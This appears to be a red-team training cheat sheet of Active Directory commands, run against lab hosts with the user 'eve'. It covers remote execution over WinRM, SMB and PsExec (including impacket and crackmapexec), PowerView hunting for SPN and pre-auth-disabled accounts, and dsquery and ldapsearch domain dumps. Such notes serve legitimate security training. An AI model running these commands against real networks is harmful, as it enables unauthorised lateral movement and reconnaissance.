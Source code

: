 ## Grouper  
Group3r.exe -s  
## Winrm  
winrs -r:demo -u:eve "hostname && whoami"  
Enter-PSSession -ComputerName demo -Credential eve  
Invoke-Command -ComputerName demo -ScriptBlock {hostname; whoami} -Credential eve  
evil-winrm -i demo -u eve -p eve  
crackmapexec winrm demo -u eve -p eve  
crackmapexec winrm demo -u eve -p eve -x 'whoami && hostname'  
## SMB  
PsExec.exe [\\](file:///\\demo)demo -u eve cmd  
PsExec.exe [\\](file:///\\demo)demo -u eve -s cmd  
net use W: [\\](file:///\\demo\share)demo\share /user:eve eve  
crackmapexec smb demo -u eve -p eve  
smbclient -U eve [\\\\](file:///\\\\demo\\C$)demo\\C$  
python3 smbclient.py eve@demo  
python3 smbexec.py eve@demo  
python3 psexec.py eve@demo  
## WMI  
wmic computersystem get name  
Get-WmiObject -Class Win32_ComputerSystem -Property Name -ComputerName demo -Credential eve  
## PowerView  
Get-NetDomain  
Get-NetGroup | select samaccountname, admincount, description  
Get-NetDomainTrust  
Get-NetUser -SPN  
Get-NetUser -PreauthNotRequired  
Get-NetUser | select samaccountname  
Get-NetUser -Name case  
Get-NetGroup -UserName "case"  
Get-DomainGPO | select displayName  
Get-DomainGPO -Identity "Hyper Drive Station"  
## dsquery  
dsquery.exe computer  
dsquery.exe user  
dsquery.exe group  
dsquery.exe group -name "*admin*"  
dsquery * "CN=System,DC=KINETIC,DC=CORP" -filter "(objectClass=trustedDomain)" -attr trustPartner flatName  
## ldapsearch  
ldapsearch -H ldap://10.65.1.20 -x -s base  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W "(objectclass=computer)"  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W "(objectclass=user)"  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W "(objectclass=group)" cn member  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W > kinetic.ldap  
cat kinetic.ldap |grep "objectClass:"

RXFALL20